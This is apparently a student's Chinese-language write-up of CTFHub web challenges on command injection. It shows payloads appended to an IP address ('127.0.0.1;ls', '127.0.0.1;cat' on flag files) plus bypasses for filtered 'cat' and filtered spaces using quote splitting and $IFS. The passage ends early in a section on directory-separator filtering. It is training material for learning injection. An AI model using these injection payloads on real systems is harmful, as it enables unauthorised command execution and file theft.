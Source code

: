 # WEB第一课作业 #
>114514
>>111
______
## CTFHub 
![day1a1.png](https://s2.loli.net/2025/01/17/Oi8vxVwX5HLKATk.png)
### 命令注入  
没有过滤的输入导致命令执行，简称随便乱注。  
>127.0.0.1;ls  
* 先看看文件有什么。  
![day1a2.png](https://s2.loli.net/2025/01/17/BkywfFEG4aMHnev.png)
一眼顶针，这一串数字里面应该就是flag了。  
* 现在来打开看看  
>127.0.0.1;cat 248801405131918.php  

![day1a3.png](https://s2.loli.net/2025/01/17/bQBD6kvz2JNKHZj.png)

发现没有回显，遂使用<kbd>Ctrl</kbd>+<kbd>U</kbd>查看网页源代码。  
![day1a4.png](https://s2.loli.net/2025/01/17/RyMAeo4T7Vr38Ll.png)  

拿到flag。  
  
### 过滤cat  
* 先打开看看
>127.0.0.1;ls  
  
![day1a5.png](https://s2.loli.net/2025/01/17/ixaw25o3cRuPS7p.png)  
* 拿到文件名，使用‘’bypass掉cat  
>127.0.0.1;c''at flag_17049275531215.php  
  
拿到flag。  
![day1a6.png](https://s2.loli.net/2025/01/17/C2nd1lqstbk7B4g.png)  
  
### 过滤空格  
* 先打开看看
>127.0.0.1;ls  
  
  ![day1a7.png](https://s2.loli.net/2025/01/17/1eubPhVjYtBoL6T.png)  
   
* 拿到文件名，使用\$IFS$(NUM)bypass掉空格  
>127.0.0.1;cat$IFS$1flag_32691709418468.php  
  
拿到flag。  
![day1a8.png](https://s2.loli.net/2025/01/17/Ir19NnubYDsE32l.png)  
  
### 过滤目录分隔符  
* 常理先打开看看  
>127.0.0.1;ls  
  